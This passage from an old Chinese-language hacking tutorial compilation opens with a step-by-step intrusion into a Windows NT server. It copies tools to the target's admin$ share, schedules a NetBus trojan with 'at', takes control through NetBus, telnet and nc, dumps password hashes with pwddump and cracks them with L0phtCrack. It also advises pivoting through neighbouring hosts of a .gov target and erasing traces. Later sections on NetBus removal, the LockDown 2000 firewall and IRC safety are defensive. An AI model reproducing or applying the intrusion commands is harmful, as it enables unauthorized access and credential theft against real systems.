1 file(s) copied.
C:\>copy c:\hack\psidump.exe \209.102.20.193\admin$\system32
1 file(s) copied.
C:\>copy c:\hack\netsvc.exe \209.102.20.193\admin$\system32
1 file(s) copied.
```

图 29

程序已经复制到远程计算机上，那么如何启动木马程序 ntsrv.exe 呢，请看图 30：

```
C:\>netsvc \209.102.20.193 schedule /start
Service is running on \209.102.20.193
C:\>at \209.102.20.193 13:30 ntsrv.exe /port:64321 /nons
Service is running on \209.102.20.193
```

图 30

这样，在远程计算机时间 13:30 分（时间在 letmein 已显示，估计后延一点），SERVER 上的 SCHEDULE 服务程序将启动 ntsrv.exe，并监听端口：64321。当然，端口号可以根据自己的习惯，建议在 200 - 65360 之间选择。

OK，您已成功占领该计算机，启动 NetBus 客户端程序：NetBus.exe，在 host name/IP 中填入 209.102.20.193，在 Port 中填入 64321，选择“Connect!”按钮，如图 31：


图 31

具体 NetBus 的用法，可以查看其 Help 文件，接下来，选择"Get Info"，如图 32：


图 32

可以判断其 WinNT 安装在 C:\winnt 目录下，接下来，选择“App Redirect”，如图 33：


图 33

当然，端口可以自己选择，但建议尽量大点，如：61111、59999 等，这样，你就可以通过 Telnet.exe 或 nc.exe 来控制远程计算机 SERVER 运行你的攻击程序，如图 34：


图 34

利用 nc.exe 的界面：
Telnet 用法如下：`telnet 209.102.20.193 54321`
而且必须将终端→首选选项→本地响应选上，利用 Telnet.exe 的界面（如图 35）：


图 35

这样，你已在远程计算机上运行 DOS 窗口，并将你的运行程序结果返回到你的本地机器。因为程序是运行在远程计算机上，速度只要你 ping 一下美国的站点，你就会发现不一样。

接下来，必须取得该站点的密码，扩大战果，在 telnet 或 nc 中，运行 pwddump.exe，如图 36：


图 36

然后，利用 NetBus 将 server.lc 下载到本地，利用 L0phtCrack 2.5 解出其他密码，如图 37：


得到了密码，接下来的事我就不用再说了，但千万注意保护好这个堡垒，不要在上面留下不该留下的垃圾，也千万不要删除上面的任何文件。攻击完后，一定要将相关现场恢复，如删除 server.lc、pwddump.exe 等文件。

这里只介绍攻击 NT 服务器的基本方法。攻击一个站点时，往往主站点很难进入，也不会有这种管理员的密码一猜就中，但不要泄气，用 Pinger 扫描其相差一个或几个 C 端地址，攻击其防范不严的相关机器，一步一步得到管理员的密码。如目标为：www.somesite.gov，其 IP 为：111.111.111.111，扫描出其所在 C 类地址所有 IP，攻击其相关服务器或其工作人员站点机。比如 www.somesite.gov，管理员其中有 usasb，利用 letmein 无法得到管理员密码，但其中有一台机器为：usasbclient，其中管理员有：administrator、test、usasb，利用 letmein 得到 test 的密码为空，采用上面的方法，得到 usasb 的密码，利用 LC 解出 usasb 的密码明码，ok，再用 usasb 进入 www.somesite.gov，将其所有密码下载后，接下来 killusa 要睡觉去了!!! - ) ... ...

要成为一名优秀的 Hacker，必须有敏锐的洞察力和应变能力，必须对各种操作系统相当了解，并且有很好的编程水平。鉴于当前形势严峻，不做一名优秀的 Hacker，入个门，也能取得好成绩，哈哈... ...

## 五、防范与追杀 NetBus

- 1. 你的机器中有 NetBus 吗

中了 NetBus 的人要小心。NetBus 感染到你机器里的程序的名字是由你执行带 NetBus 的某个正常的程序的名字决定的。但中了 NetBus 后的机子有几个特征：NetBus 第一种会在 C:\Windows 目录下生成一个文件，一种是图标像 C:\Windows\System 目录下的“查看频道.scf”文件，这只能在 WIN98 里看到。这图标看起来是一个中心淡蓝色的锅状卫星天线；另一种是图标像一个燃着的向右倾斜的火炬，背景是一个小小的深蓝色的圆面。如果你在 C:\Windows 目录下看到这两种图标的文件，在文件上点击鼠标右键，点菜单最底下的“属性”，看看“大小”是否出现“483KB”或“461KB”。如果出现其中一种，那请再运行 C:\Windows 目录下的 regedit.exe，同样点击目录至 `HKEY_LOCAL_MACHINE\SOFTWARE\MICROSOFT\WINDOWS\CURRENTVERSION\RUN`，看有没有哪个 Run 项的名称与你发现的那种图标的文件的名字相同。如果有，看看这 Run 项右边是不是出现“C:\Windows\图标的名字.exe /nomsg”。如果出现的话，表示你的机子中了 NetBus。同上面一样，删除这个 Run 项，退出到 MS-DOS 方式，输入 `cd C:\Windows` 回车，输入 `del 图标的名字.exe` 回车，输入 `del keyhook.dll` 回车，返回 Windows。

NetBus 的工作方式类似于 BackOrifice，一旦用户在其系统中安装了该软件（不管有意还是无意），黑客就可以取得该用户系统的几乎完全的远程控制权，这一点很像合法的遥控产品（如 PC Anywhere）。

- 2. 对付 NetBus 的通常手段

如果不慎被别人植入了 NetBus 之后，应该怎么办呢？

若想手工卸载 NetBus，就先要找到注册密钥 `\HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\Current Version\Run` 并 remove the program（通常是 patch.exe），然后在受侵计算机的硬盘上找到同名文件（扩展名有多种，如.ini）并删除。

不少杀毒产品都能对付 NetBus，Panda Software（www.pandasoftware.com）就提供一种免费软件。另外，利用网络扫描工具搜索标准的 NetBus 端口（12345 和 12346）也能够将其检测出来，但缺点是，它只搜索用户指定的端口。由于 NetBus 能随意改变端口号的设置，因此发现 port 12345 并不代表 NetBus 肯定存在于系统中。要找到 NetBus，必须扫描本地系统——可以利用 netstat，在控制台搜索 UDP 找出异常的 UDP 接收端口。

要把 NetBus 从系统中删掉，有许多产品可供选择。Privacy Software（www.privsoft.com）的 BOClean32 2.01 等商业产品或是 Puppet（www.dynamsol.com/puppet）的 Cleaner 1.9c 等免费软件都能胜任这项工作。Cleaner 不仅能有效排除 NetBus 的侵染，还能检测并清除其它多种 Trojans 如 BackOrifice、Master's Paradise。

很多站点上都提供 NetBus 的相关信息，包括其二进制文件、功能解释和卸载步骤。在此我们推荐 www.nttoolbox.com、www.nwi.net/~pchelp/nb/NetBus.htm 以及 Privacy Software 的 www.privsoft.com/psc-nb.html。

对于 NetBus 和 BackOrifice 这类 Trojan 程序，你的态度如何？其创作者是纯粹为了消遣还是别有险恶用心呢？也许二者都有……

- 3. 拦住巴士的 NetBus Detective

NetBus 具有很强的功能，是最经常使用的黑客软件之一，也正是因为如此，产生了专门对付这种黑客软件的工具。NetBus Detective 就是其中一种防止黑客用 NetBus 入侵的工具。

NetBus Detective 防止黑客利用 NetBus 入侵你的电脑，并且保护电脑不受特洛伊木马病毒进攻。NetBus Detective 主要的功能就是防止黑客利用 NetBus 入侵你的电脑。NetBus Detective 可以侦测所有 NetBus 的相关活动，当它侦测到有黑客入侵的时候还会发出讯息告诉对方：你已经入侵失败啦！

另外，现在也有很多专门为 NetBus 设计的特洛伊木马病毒。这些病毒也同样很容易入侵使用 NetBus 的电脑。而 NetBus Detective 也针对特洛伊木马做了防护，绝对不会让“木马屠城记”上演啦！

## 构建你的个人防火墙 LockDown 2000

“林子大了什么鸟儿都有”，这话一点没错。随着互联网的迅速发展，上网人数急剧增加，黑客入侵的事件也越来越多了。据 Worldtalk 公司的最新调查表明：现在，每 1000 封电子邮件中，就有一封携带病毒，其中就包括黑客施放的特洛伊木马程序。遗憾的是，大部分普通网民，并不具备专业反黑技术，犹如赤条条游行于茫茫网海中，自然而然成为黑客的“造访”对象，甚至有的人长期处于黑客监视之下自己却全然不知。

“木马”、“炸弹”让我们上网时胆战心惊，难道我们就此裹足不前吗？虽然我们这些普通用户没有值银子的机密资料，也没有能力没必要购置昂贵的安全设备，但就这样提心吊胆、任人宰割吗？著名的 Harbor Telco 网络安全技术公司为此开发了号称是 Windows 环境下最有效的网络安全防护软件 LockDown 2000，可以助我们一臂之力。

### 一、 LockDown 简介

LockDown 2000 是 Harbor Telco 网络安全技术公司开发的，号称 Windows 环境下最有效的网络安全防护软件，它是一个个人防火墙性质的软件，不仅可以与局域网中现有的防火墙一起合作，自己本身也可以作为一道单独的防火墙，防病毒并监控来自网络上的黑客闯入你的计算机。当你连线上网时，LockDown 2000 会自动在后台启动。

LockDown 2000 能够实时查杀 596 种黑客程序和未知的所有特洛伊木马，邮件病毒（包括爱虫），防止网络炸弹攻击、在线检测和控制所有对本机的访问。还能跟踪入侵者，留下它的罪证……当然，世界上没有万能的工具，只有您自身建立起安全意识，不要轻视不可靠的程序，以免中招！

这个软件功能强大，完全可以应付黑客的侵袭，但美中不足的是 LockDown 2000 占用的系统资源比较大，运行时可能会影响速度。而且 LockDown 2000 是一个共享软件，你只有 10 天的试用期，10 天后要想继续使用的话就得破费破费了。

目前 LockDown 2000 的最新版本是 v7.0.0.2。

### 二、 LockDown 2000 的主要功能

LockDown 2000 是一个个人防火墙，它会以连线方式监控你的网络连接，记录访问者和侵入者的 IP 地址，记录访问者所进行的各种操作，而你可以使用 LockDown 2000 将不速之客拒之门外。新推出的 LockDown 2000 v7.0.0.2，堵住了 Windows 95/98/NT 中新发现的安全漏洞，能防止网络炸弹的攻击，能清除目前所有的特洛伊木马，它的主要功能有以下几个方面：

- 1. 可记录连入你计算机的使用者的连接情况

如果你选择让其他局域网连接到你的电脑上时，LockDown 2000 可以自动地为你将对方所有的连接过程记录下来，让连接方在你的监控下，不但可以记录到对方的 IP 地址，而且可以将对方主机的名称也一并记录下来。你还可以记录所有客户的登录。

- 2. 可有选择性地让使用者连入你的计算机

用 LockDown 2000 来管理连线到你机器上的使用者也相当的方便好用，你可以选择拒绝所有的使用者连接到你的机器，或者是只让经过你核准并且列在你 IP 列表清单中的使用者才可以连接上来，这样不但可以有效地对使用者进行过滤，区别对待，并且可以避免黑客的入侵。

- 3. 可随时切断使用者的连线

除了上述利用 IP 控管的方式来选择可以登录你主机的远端使用者之外，你还可以通过其它方法来立即打击这些入侵你电脑的不速之客。在 LockDown 2000 中拥有即时切断使用者连线的功能，当有身份不明之士连接到你的电脑上时，你可以选择使用这种功能。这样，即使你先前的防备并没有起作用，也还来得及将对方断线，并且可以即时监控访问者在你电脑上正在进行哪些活动，这些都将会被完整地记录下来。

- 4. 可查找不速之客的来源

另外你也可使用 LockDown 2000 来帮你找出那些不速之客是从哪里来的，你只要运行LockDown 2000 之中的 TraceRoute 工具，便可以正确地找到对方的连线 IP、主机名称等等，用 Whois 工具可以让对方犯罪的证据完整地记录下来。

## 5. 具有警告提醒功能

如果你本人当时并没有坐在电脑前，只要有人想要连接到你的电脑上，LockDown 2000 就会发出报警的声响，提醒你赶快去监控对方在你电脑上进行何种活动。如果你觉得光声音还不够，这时还可以选择以 Pop-up（弹出式窗口）的方式来提醒你。

从以上几点可以看出，LockDown 2000 可以安全保护计算机在未经许可下被访问，这样任何一种远程控制工具都无法对你构成威胁。所有的这些，都让你的电脑时刻处于层层呵护之下，让你的数据免受黑客攻击。LockDown 2000 的确是一个使用简单而功能强大的防黑软件，而且在国内各个下载站点，几乎都有它的汉化文件——“中文”的防黑软件想必很简单吧？因此，安装了 LockDown 2000，就相当于雇了一名反黑高手，有时可能你自己还没反应过来，它就已经替你避免了一场灾难。

## 三、LockDown 2000 的使用方法

罗里罗嗦地说了一大堆 LockDown 的好处，那么如何使用 LockDown 呢？首先，我们来看看它的界面和设置：

LockDown 2000 启动后，会有一个黄色小锁图标出现在系统任务栏。双击这个图标将弹出如图 1 所示的 LockDown 2000 的界面。


图 1

整个界面由菜单栏、工具栏、状态栏和工作区等组成。状态栏主要显示当前的断开模式、共享连接数，至于菜单栏和工具栏，后面用到时将做详细说明，这里主要介绍工作区的五个标签窗口。

- **Main（主信息窗口）**：如图 1 所示，主要显示 LockDown 2000 的运行记录。如：刚启动时，它会显示哪些模块被激活，哪些模块被禁用。运行之后，会显示什么时候扫描过木马等。窗口下面还有三个 Options（选项）按钮，Trojan Scanner 用于设置特洛伊木马扫描器，ICQ/Nukes/Troj 用于设置 ICQ 炸弹/炸弹/特洛伊监测模块，AutoTrace 用于设置黑客路径自动追踪。此外，右边还有两个按钮，Save Information Log 用于保存窗口信息。Clear Information Log 用于清除窗口信息。

- **Net Utilities（网络工具窗口）**：如图 2 所示，它主要包括 TraceRoute 和 Whois 两个网络检测工具。前者用于手动追踪入侵者的路径，而后者则依据前者查到的信息，查出其 ISP 的联络信息。


图 2

- **Shares（共享窗口）**：显示共享文件夹和共享者信息（如图 3）。在这里显示了你的计算机上所有的共享资源情况，在相应的文件夹上点击右键可以修改共享属性。


图 3

- **Current Share Connections（当前共享连接窗口）**：如图 4 所示，显示当前所有访问你计算机、与你共享文件的连接及来访者的登录信息。显示了访问者来访时间、日期，连接的时间和空闲的时间，以及来访者的 IP 地址和用户名。选中相应的文件夹将显示来访者在相应的文件夹所进行的操作。在此，你可以选择断开、添加或连接指定用户。


图 4

- **Former Share Connections（以前共享连接窗口）**：如图 5 所示，在这个窗口中显示曾经访问过你计算机的连接及来访者的登录信息。记录了来访者登录时间、退出的时间、连接的时间以及来访者的 IP 和用户名等信息。


图 5

- **Plug-ins**：显示了 LockDown 2000 的插件，按下按钮 Get Information 将从 LockDown 2000 的主页上获取关于插件 LockDown 2000 VBS Inspector 的信息，点击 Download and Install 将从 LockDown 2000 的主页上下载并安装 VBS Inspector。

## 四、LockDown 2000 的设置

虽然，对于初级用户而言，即使不作任何配置，LockDown 2000 仍能正常工作，但是，要让它更好地为你把好家门，你必须了解这部分内容。

要进入 LockDown 2000 的设置区域，有多种方法，最简单的是，直接按下快捷工具栏上的 Options（选项）按钮，进入 Options 对话框（如图 6），通过在五个标签之间切换，就可以修改 LockDown 2000 的主要设置。

### General（通用）标签（如图 6）：


图 6

- **Network Info Refresh Rate**：网络信息刷新率。用来设置刷新及断开的时间间隔。默认的时间间隔是 1000 毫秒，为了安全起见，可以使用更低的刷新率，如 500 毫秒。
- **Number of connections to remember**：存储连接数。表示最多允许保存以前的多少连接。默认为 100 个连接。
- **Launch LockDown 2000 on startup**：自动运行 LockDown 2000。即在系统启动时，LockDown 2000 自动打开。选中前面的复选框表示“允许”自动运行。
- **Popup window on new connection**：如有新连接将弹出窗口。选中后，当有人试图连接到你的计算机时，LockDown 2000 将弹出警示窗口。默认为“允许”状态。
- **Log IPC$**：IPC 是 Inter Process Communication 的缩写，意为“进程间通信”，用于在两个过程之间交换特定信息。默认设置为“禁止”。
- **Warn When Exiting LockDown 2000**：退出前警告。选中此项后，退出 LockDown 2000 时，系统将弹出如图 7 所示的对话框，提示你退出 LockDown 2000 将失去对你计算机的保护。默认“禁止”。


图 7

- **Sound when new connection**：当有新连接时发出警报。默认设置为发出 Standard sound (siren)（标准警报声），你也可以选择 Custom sound（定制声音），另外指定一种声音，但指定的声音必须是 .wav 格式的。
- **Default Whois Server**：选择默认的 Whois 服务器。如要查国内的 ISP，可从下拉列表中选择 whois.cnnic.net.cn（中国互联网络信息中心）。
- **TraceRoute new connection**：追踪新连接的路径。选中该选项后，LockDown 2000 将对任何试图访问你计算机的连接进行追踪。默认“允许”。

### Disconnect（断开）标签（如图 8）：


图 8

- **Add program（添加程序）按钮**：将那些不允许他人执行的程序添加到列表中。通常，将一些可能对你的系统或文件造成破坏的程序添加进去，如 Format.com、Debug.exe 等等。当有人不怀好意地执行表中程序时，他与你计算机的连接会被立即强制断开，从而避免灾难发生。
- **Clear Program List 按钮**：清空程序列表。
- **Remove program 按钮**：将所选中的程序名从列表中删除。
- **Disconnect all when executing programs listed above**：当有人执行断开列表中的程序时，LockDown 2000 将立即断开当前所有与你的连接用户。呵呵，这样不分青红皂白，是不是有点“防卫过当”，默认设置为“禁止”。
- **Disconnect users after idle time**：空闲多久将被断开。这个设置用于断开那些连接到你的计算机后长时间没有操作的用户。默认设置为 10 分钟，要想更多朋友访问你的计算机，可以缩短该设置。
- **Maximum number of connections**：最大连接数。即允许同时连接到你计算机的用户数。默认设置为 10，最小设置为 1。

### IP Filter（IP 过滤器）标签（如图 9）：


图 9

- **Add IP Filter（添加 IP 过滤器）按钮**：“IP 过滤器”是 LockDown 2000 内部一件更加灵活的反黑武器。它允许用户事先指定一个 IP 地址（通常只是前三段），然后，将来访者的 IP 地址与之对照，吻合的放行，不吻合的则被挡住。例如，202.204.208，就可算一个 IP 过滤器，将它添加到表中后，如果一个来访者的 IP 地址是 202.204.207.*，那么，他会被视为非法入侵者，而被拒之“机”外；但假如来访者的 IP 地址是 202.204.208.*，那么他会被视为合法用户而允许进入。注意，IP 过滤器的作用优先于后面要介绍到的 Disconnect Mode（断开模式）的设定。
- **Filter IP Addresses（过滤 IP 地址）**：选中此项后，上面添加的 IP 过滤器才能生效。由于默认情况下，无须用 IP 过滤器，因此该选项被“禁止”。

### Detection（侦测）标签（如图 10）：


图 10

- **Detect Trojan Connection Attempts**：侦测试图通过特洛伊木马进行的连接。选中该项后，如果有人企图通过特洛伊木马连接到你的计算机，那么，LockDown 2000 会发出声音警报，并对其进行监测和追踪。这是 LockDown 2000 最重要的选项，当然要激活。所以，默认设置为“允许”。
- **ICQ Nuke Protection**：ICQ 炸弹防护。选中该选项后，可以防止他人用 ICQ 炸弹攻击你。为避免冲突，启用该功能后，建议你不要再启动其它同类保护软件，如 ICQ Protect、WFIPS2 等。此外，该选项有可能会引起“内存不足错误”，因此，如果你不使用 ICQ，就不要选它。默认设置为“禁止”。
- **Nuke Protection**：炸弹防护。选中后，LockDown 2000 将监测通常情况下容易受到黑客攻击的端口，一旦这些端口中的某个被访问，LockDown 2000 将立即断开其连接，并追踪来访者信息。同样，建议你不要与同类保护程序一起使用，否则，也可能出现内存不足错误。默认“禁止”。

### Trojans（特洛伊）标签（如图 11）：


图 11

用来设定扫描特洛伊木马的方式、对象、附加路径等。

- **Automatic Trojan Scanner（木马自动扫描器）**：包括四个选项。其中 `Scan for unknown trojans` 用于设定是否扫描未知特洛伊木马，选中后，将对 Windows 的系统文件 WIN.INI、AUTOEXEC.BAT、SYSTEM.INI、CONFIG.SYS 等进行扫描（默认设置为“允许”），你也可以在它的左边 File Change Monitor（文件改变监视）区域，选择不检查上述某些文件；`Background scan for trojans` 用于设定是否在后台扫描特洛伊木马，选中后，在扫描木马的同时，你可以做其它事情，扫描对象为系统及用户指定目录，如 Windows、Windows\System、Windows\Temp、Startup 等，默认“允许”；`Background scan at start` 用于设定是否在系统或 LockDown 2000 启动时进行后台扫描，选中后，未经你同意，任何特洛伊或其它程序不能运行，默认“禁止”；至于 `Scan interval`，用于设定后台扫描的时间间隔，默认设置为 20 秒，为安全起见，可以缩短为 10 秒或更短时间，但注意，无论这里的时间间隔设置多长，一旦系统文件或目录发生变化，LockDown 2000 都会立即重新扫描。
- **Manual Trojan Scan**：手动扫描特洛伊木马。从下拉列表中选择要扫描的驱动器，按下 Scan Drive for Trojans 按钮，LockDown 2000 将以低优先级扫描驱动器上的文件，这种方式的好处是，可以优先保证其它应用程序的运行。
- **Additional Scan Path**：附加扫描路径。你可以另外指定一个目录（如存放下载文件的），让木马扫描器每次激活后一并对其扫描。
- **Ignore List**：忽略列表。如果因为某些原因将一个文件添加到忽略列表中，你可以按 Remove 按钮删除它。

上面介绍了在 Options 对话框中五个标签下，修改 LockDown 2000 的主要设置。此外，你还可以单击主窗口中的菜单 View（查看）/Disconnect（断开），在 Disconnection Mode（断开模式）对话框中，选择适当的断开模式，如图 12 所示：


图 12

- **Disconnect all**：全部断开。该模式断开所有来访者的连接。
- **Disconnection list**：断开列表。该模式只断开列表中指定用户的连接，将那些不受欢迎的人加进去吧。要查看表中现有哪些用户或者要增删用户，可以点击 View List（查看列表）按钮。
- **Disconnection Off**：断开关闭。该模式将不断开任何连接，即允许任何人与你的计算机连接并共享文件。

另外，也可以鼠标右击系统任务条中的黄色小锁图标，选择断开模式。

## 五、如何用 LockDown 2000 捕获黑客

了解 LockDown 2000 的界面和设置后，现在来看看如何用它捕获黑客。正如前面介绍的，LockDown 2000 的启动、监控、追踪，都是自动进行的。要查出黑客，用户的主要任务是，解读追踪信息并查找 ISP 联络信息。

通常 LockDown 2000 会自动将追踪信息存为一个按日期命名的 log 文件，如当天是 2000 年 7 月 25 日，文件名就为 07252000scan.log，它位于 LockDown 2000 目录内，点击工具栏上的 Logs 按钮，可以看到所有 log 文件的列表，而选中一个 log 文件，可以看到文件的详细内容，如图 13 所示。


图 13

这里假设打开一个 log 文件，让我们来看看如何用它抓住黑客。这个 log 文件起始部分内容如下（纯属虚构，请不要对号入座）：

```
+   <1 46 29 PM> Trojan network connectivity check enabled.
<1 46 29 PM> Auto Trojan scan is activated.
<1 46 29 PM> Nuke protection disabled.
<1 46 29 PM> ICQ Nuke protection disabled.
<3 14 24 PM> Incoming hack attempt from IP Address 202.204.211.249
```

注意第五行，可以看到，一个 IP 地址为 202.204.211.249 的黑客，曾在下午 3:14:24 试图入侵本机。但从接下来的两行，可以看出，他没有得逞。因为在同一时刻，LockDown 2000 终止了他的连接，并开始追踪其路径：

```
+   <3 14 24 PM> Terminated connection attempt...
<3 14 24 PM> Attempting trace route... Please stand by
```

过了 26 秒钟，追踪结果出来了。注意最后几行，可以找到这个黑客的 ISP 和他 ISP 的上游提供商：

```
+   <3 14 50 PM> => 194.ATM8 - 0 - 0.GW1.DFW1.ALTER.NET
<3 14 50 PM> => iadfw3 - gw.customer.ALTER.NET
<3 14 50 PM> => big - bro - f5 - 0.iadfw.net
<3 14 50 PM> => ghtia - ds3 - 1.net.iadfw.net
<3 14 50 PM> => atnt03.ght.iadfw.net
<3 14 50 PM> => pppt03 - 251.ght.iadfw.net
```

上面最后一行就是黑客的拨号地点，即这个黑客是在 pppt03-251.ght.iadfw.net 拨号上网的，它的 ISP 就是末尾的 iadfw.net，而这个 ISP 的上游提供商，就是前面几行末尾的 ALTER.NET。

接下来，根据查到的 ISP 及其上游提供商域名，手动查找它们的联络信息。为此，点击 LockDown 2000 主窗口中的“Net Utilities”标签，在右边的 Whois 区域，输入 ISP 的地址 iadfw.net（注意先联网），然后点击 Execute（执行）按钮，出现如下查询结果：

```
== Looking up IADFW.NET on whois.internic.net ==
Registrant
Internet America IADFW - DOM
350 N. St. Paul Suite # 3000
Dallas      TX 75201
US
Domain Name     IADFW.NET
Administrative Contact
Davis     Doug    DD344     cto@AIRMAIL.NET
214.979.9009
Technical Contact     Zone Contact
NOC     IA      IN167     noc@AIRMAIL.NET
214.861.2577

Billing Contact
Chaney    Jim     JC12164     cfo@AIRMAIL.NET
214.861.2553    FAX     214.861.2663
Record last updated on 30 - Nov - 98.
Record created on 09 - Jan - 95.
Database last updated on 27 - May - 99 13    27    39 EDT.
Domain servers in listed order
NS1 - ETHER.IADFW.NET 204.178.72.1
NS2.IADFW.NET 204.178.72.30
```

显然，这是一家美国的 ISP，它的管理机构及有关人员的地址、电话、传真和 Email 等信息，都详细列出来了，复制下来存为文件。然后，再用同样方法，查出上游提供商的联络信息。至此，这个黑客即被成功捕获。

但要让其受到应有惩罚，你还应该立即向他的 ISP 及其它相关机构发送投诉信，记住附上追踪信息（log 文件），以便有关机构进一步查实。通常，国外较大型的 ISP 每 24 小时删除一次记录文件，所以再次提醒你，投诉必须尽快。

怎么样？抓黑客也并不难吧。不过，有人在查找 ISP 的联络信息时，却颇费周折，问题在哪？Whois 服务器选择错误！目前网上有 Whois 服务器 200 余个，它们主要按洲属和国别划分，所查域名应与 Whois 服务器对应，如要查国内的，可选用 whois.cnnic.net.cn，查日本的，可选用 whois.nic.ad.jp，查亚太地区的，可选用 whois.apnic.net，查欧洲的，可选用 whois.ripe.net 等。

当然，作为网络安全工具，首先自身得安全，要不，岂不成了“泥菩萨过河”？LockDown 2000 具有口令保护功能，只要点击菜单 View/Password（口令），就可以设置打开 LockDown 2000 窗口的密码。此外，LockDown 2000 也适用于局域网的安全保护，可以在现有防火墙的基础上，再加上一道“防火墙”。你看，有反黑高手 LockDown 2000 帮忙，你可以放心了吧，什么木马呀、铁马呀，通通 ByeBye！

## IRC 攻防策略

> 编者语：IRC 是英文 Internet Relay Chat 的缩写，1988 年起源于芬兰，已广泛应用于全世界 60 多个国家，它是“talk”的替代工具但功能远远超过“talk”，IRC 是多用户、多频道的讨论系统，许多用户可以在一个被称为“channel”的地方就某一话题交谈或私谈。它允许整个 Internet 的用户们之间作即时的交谈，每个 IRC 的使用者都有一个 nickname，所有的沟通就在他们所在的 channel 内以不同的 nickname 交谈。

### IRC 的优点

- 1. 最大的特点是实现了在线实时交谈，这是它比通过电子邮件进行联络沟通更为迷人的地方。
- 2. 可以设置单独的频道，在这个频道内输出的文字可供所有人都看到，这样可以使来自世界不同角落的人同时得到有关信息。这样可以几个朋友约定好时间同时上网，用非常低的费用就开“密友 CHAT”了。
- 3. 可以单独和某人进行秘密交谈，甚至可以不用通过服务器，这样可以保证谈话的保密性。所以，很多活动，可以使用这个软件轻松实现比较安全保密的沟通。
- 4. 界面友好，设置容易，不用什么特殊的设置就可以使用这个软件了，要是还觉得麻烦的话，那就干脆将一些做好的 BOT 装上，可以完成很多你想到和想不到的效果。

IRC 里面也出现了很多攻击手段，例如：木马、获得 IP、Flood、DCC Flood 等等。本文介绍了这些方法的原理和防御措施。读完本文以后，我想读者应该能够在 IRC 聊天室里面穿行自如。

### IRC 安全常识

这部分介绍基本的 IRC 安全知识，以及 Mirc 的一些安全设置。

- 1. 在陌生的 IRC 里面不要使用你的真名字，也不要随意透露你的电话、家庭住址、QQ 号码什么的，免得半夜鬼敲门。
- 2. IRC 的用户信息不要如实填写。特别是名字和 Email。Mirc 用户按 Alt + O，在弹出的对话框的连接选项中可以修改个人信息。名字只要不是你的真名就可以，最好填上你常用的 Nick，Email 填 YourNick@irc.com 好了。接着把下面那个隐藏模式选上，用处不是很大，但比没有好。
- 3. 不要轻易地相信不熟悉的人的话。这点可以引起很多的 IRC 问题，比如暴露你的 IP，或者使你的电脑蓝屏。举例来说：经常可以看到这样的话：
  `<springold> 请大家双击 -> http://xxxxxxx`
  更有甚者，把 http 后面的内容改成和背景色一样。比如白色，你看到的就是这样的：
  `<springold> 请大家双击 -> 很好看的哦。`
  那个 URL 可以连到他自己的电脑上，用来骗取你的 IP，也可以是炸弹的地址，引诱你上钩。一旦你点了，机器立刻就蓝屏了。
- 4. 不要和陌生人使用 DCC Chat，也不要轻易接收人家 DCC 给你的文件，特别是一些可以运行的文件（以“exe”、“vbs”、“com”、“bat”、“pif”、“scr”、“lnk”、“js”等为后缀的文件），很可能是恶意文件。在 Mirc 中按 Alt + O -> DCC，把发送请求和聊天请求都选成“显示聊天对话框”。如果选择自动获得/接受的话，一来容易收到恶意程序，二来也给攻击者使用 DCC Flood 提供了方便。DCC 选项中的“文件夹”子选项可以设置能接收的文件类型，推荐为：打开忽略文件除了: *.jpg *.gif *.png *.bmp *.txt *.log *.wav *.mid *.mp3 *.zip。

## 关于 IRC 木马

除了网上流行的一些常见木马程序，比如冰河、Sub7 等，我们还要注意一些不常见的针对 IRC 的木马和病毒。大部分木马都有很好的隐蔽性，别人可以通过它远程控制你的机器，用它来窃取你的信息、夺取 IRC 频道权限，或者是利用你的机器发动 DOS 攻击等。总之，一旦中了木马，爱机的命运就掌握在别人手上了。木马一般不会自动运行，往往绑定在别的一些应用程序中，一旦你运行了这些带木马的程序，木马也就启动了。我们这里把一些有名的 IRC 木马和病毒列举出来，希望能为保护你的爱机做点“贡献”。

- 1. Srvcp.exe
  如果你发现你突然以“Drones”或“Clonebots”的名义被杀线（K-lined），那么你很可能就是中了这玩意了。
- 2. Link.vbs
  Link.vbs 是一段 VBScript 程序。它会把自己发送到你 Outlook 地址簿里的每个人。同时，它也会在 Mirc 和 Pirch 上增加脚本，使得别人一加入你所在的频道，它就会自动地用 DCC 向来者发送自己。
- 3. Back Orifice 和 NetBus
  功能强大的木马，无须多说，目前的杀毒软件都能够杀除它们，到 Pchome.net 下载金山毒霸即可。
- 4. Script.ini
  Script.ini 是 Mirc 默认的脚本文件，很容易成为目标。Mirc 会自动加载这个文件。并且有很多的功能，比如窃听你和别人的谈话，利用你的 Mirc 来执行 IRC 命令、抢占频道，并且会自动向 IRC 用户分发自己，以达到传播的目的。
- 5. Dmsetup.exe
  常把自己伪装成“xxxxx.jpg.com”这样，在 95/98 里面看上去将是一张 jpg 图片，大小约 80K。一旦木马运行，它首先会把自己复制到 `c:\windows.exe`、`c:\windows\Freeporn.exe`，在 `autoexec.bat` 文件最后增加 2 行内容，然后会在你的 `C:\` 和 `C:\Program Files` 文件夹里面创建几万个文件夹出来，具体数目看你的硬盘容量了。
- 6. 除了上面这些，还有很多知名 Mirc 木马，可以访问 PC100 的站点看详细介绍：http://www.irchelp.org/irchelp/security/trojan.html。

其实，有过 Mirc Script 编程经验的人都知道，利用 Mirc 脚本，是很容易写出木马的。以下几点可以防止机器被木马感染：

- 1. 不要下载那些你不能确定是否安全的文件，特别是一些个人站点上的东西，小心“糖衣炮弹”，Mirc Script 也不要随意使用。频道里面打出来的 URL 也不要随意点击。
- 2. 下载的文件要注意查看扩展名，Windows 默认是隐藏最后一个扩展名的，所以有时你拿到 Plmm.jpg 的时候，不要急着看，先看看扩展名也无妨。
- 3. 不要使用 Mirc 的 DCC 自动接收功能。
- 4. 在 Mirc 频道中，别人让你打什么命令，如果你不熟悉就不要用。
- 5. 安装一个杀毒软件，如“金山毒霸”。

## 关于 IRC 聊天室

### 暴露 IP 的问题

对于个人上网来说，IP 一旦暴露了，炸弹随之也就来了。网上很多人都会很乐意地帮你省网费（炸你下线）。不过，和 MM 聊天正在兴头上，断了线总是一件不爽的事情。虽然断线对你电脑里面的东西没有什么损失，不像有的病毒和木马又删又改的，但是各位也都不想成为被炸目标吧。那么，在 IRC 中是如何暴露自己的 IP 地址的呢？方法主要可以分两类，一类是骗，一类是查。如何骗呢？

- 1. 在自己的 Mirc 里面输入命令 `//echo $ip` 看看。是不是出来的 IP 了？对了！那个 IP 就是你自己在网上的 IP 地址，当然，用这个命令别人是看不到的。把 Echo 改成 `//say` 或者 `//me` 之类的试试看，整个频道的人就都知道了。以前我在聊天室里面说：大家打 `//say $ip` 看看，很有意思的，名字会变色呢，刷的就出来好些 IP 来。
